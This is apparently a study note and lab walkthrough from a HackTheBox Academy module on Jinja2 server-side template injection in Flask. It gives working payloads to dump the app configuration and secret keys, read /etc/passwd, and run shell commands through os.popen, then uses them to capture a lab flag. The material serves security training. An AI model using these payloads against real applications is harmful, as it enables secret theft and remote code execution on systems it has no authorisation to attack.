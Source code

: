 ```yaml
---
sticker: lucide//book-template
---
```

Now that we have seen how to identify the template engine used by a web application vulnerable to SSTI, we will move on to the exploitation of SSTI. In this section, we will assume that we have successfully identified that the web application uses the `Jinja` template engine. We will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step.

Jinja is a template engine commonly used in Python web frameworks such as `Flask` or `Django`. This section will focus on a `Flask` web application. The payloads in other web frameworks might thus be slightly different.

In our payload, we can freely use any libraries that are already imported by the Python application, either directly or indirectly. Additionally, we may be able to import additional libraries through the use of the `import` statement.

---

## Information Disclosure

We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, we can obtain the web application's configuration using the following SSTI payload:

```jinja2
{{ config.items() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_1.png)

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:


```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_2.png)

---

## Local File Inclusion (LFI)

We can use Python's built-in function `open` to include a local file. However, we cannot call the function directly; we need to call it from the `__builtins__` dictionary we dumped earlier. This results in the following payload to include the file `/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution in Python, we can use functions provided by the `os` library, such as `system` or `popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in function `import`. This results in the following SSTI payload:


```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_4.png)

# Question
---

![](cybersecurity/images/Pasted%2520image%252020250212131624.png)

We can begin by identifying if the page is vulnerable to SSTI:

![](cybersecurity/images/Pasted%2520image%252020250212131817.png)

![](cybersecurity/images/Pasted%2520image%252020250212131825.png)

This could be a good indicator that the server is indeed vulnerable to SSTI, let's use an identifier for `jinja2` and check if it works:

```jinja2
{{ config.items() }}
```


We can check the web application's configuration by using that payload:

![](cybersecurity/images/Pasted%2520image%252020250212131952.png)

Ok, it is vulnerable, let's get RCE:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![](cybersecurity/images/Pasted%2520image%252020250212132022.png)

We are root, let's try to read the `/` directory:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

![](cybersecurity/images/Pasted%2520image%252020250212132107.png)

There is our flag, let's read it:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![](cybersecurity/images/Pasted%2520image%252020250212132138.png)

Got it: 

```
HTB{295649e25b4d852185ba34907ec80643}
```

